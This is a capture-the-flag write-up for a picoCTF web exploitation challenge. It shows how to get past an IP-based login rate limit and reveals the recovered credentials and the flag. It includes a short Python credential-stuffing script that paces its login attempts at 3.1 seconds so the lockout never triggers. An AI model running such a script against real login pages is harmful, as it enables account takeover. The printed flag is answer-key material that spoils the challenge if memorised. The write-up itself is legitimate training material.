


# Fool the Lockout

Category: Web Exploitation

Difficulty: Medium

Author: David Gaviria

---

## Challenge Description

> Your friend is building a simple website with a login page.
>
> To stop brute forcing and credential stuffing, they’ve added an IP-based rate limit: exceed the attempt threshold and your IP is blocked for a while. They’re convinced this makes guessing credentials impossible.
>
> To test their defense, they’ve:
>
> * Created a dummy account with a random username–password pair from public credential lists.
> * Given you those username and password lists.
> * Shared the full source code.
>
> Can you bypass the rate limit, log in, and capture the flag?

---

## Reconaissance

Login Successful to get flag.



The application exposes main throw:


| Route                                | Function     |
|--------------------------------------|--------------|
| /<br /><br /><br /><br />            | Landing page |
| /login<br /><br /><br /><br /><br /> | Login Web    |
| /logout                              | Logout Web   |

---

## Vulnerable Analysis

**Source account**: In `app.py`, web read valid account from `/challenge/profile.json`. Account lied in `creds-dump.txt`.

**Target**: Finding true `username:password` from `creds-dump.txt` to login successful route `/login` and server allow to access `/` to give flag.

**Analys**

```
MAX_REQUESTS = 10      # max failed attempts before a user is locked out
EPOCH_DURATION = 30     # timeframe for failed attempts (in seconds)
LOCKOUT_DURATION = 120      # duration a user will be locked out for (in seconds)

RATE_LIMITED_HTML = "<h1>Rate Limited Exceeded</h1><p>You have sent too many requests, requests from your IP will be temporarily blocked.</p>"
```

If send `requests > 10`: IP address will locked 120s and give alert `"Rate Limited Exceeded"`

---

## Exploitation

Rate Limit 10 POST request/30s, maintaining a 3.1 -second interval between consecutive requests guarantees that the threhold is never breached. So, Script can execute indefinitely without encoutering an IP banned.

Script to exploit:

```
import requests
import time

URL = "http://candy-mountain.picoctf.net:55723/login"
FILE_PATH = r"D:\Pentest\creds-dump.txt"

with open (FILE_PATH , "r" , encoding="utf-8") as f:
    for lines in f:
        lines = [line.strip() for line in f if lines.strip()]
  

    for line in lines:
        parts = line.split(";" , 1)
        username = parts[0].strip()
        password = parts[1].strip()
        check = True
        while check:
            try:
                request = requests.post(URL , data={"username": username , "password": password})

                if "Invalid username or password" not in request.text:
                    print(f"username: {username} and password: {password}")
                    check = False
                    break
                else:
                    print("Login Fail")
                    break
            except Exception as e:
                time.sleep(2)
                break
        time.sleep(3.1)
```

After run `Script.py` file, gived `username:password` is: `colm:goblue`



flag is: `picoCTF{f00l_7h4t_l1m1t3r_9a1c0ffb}`
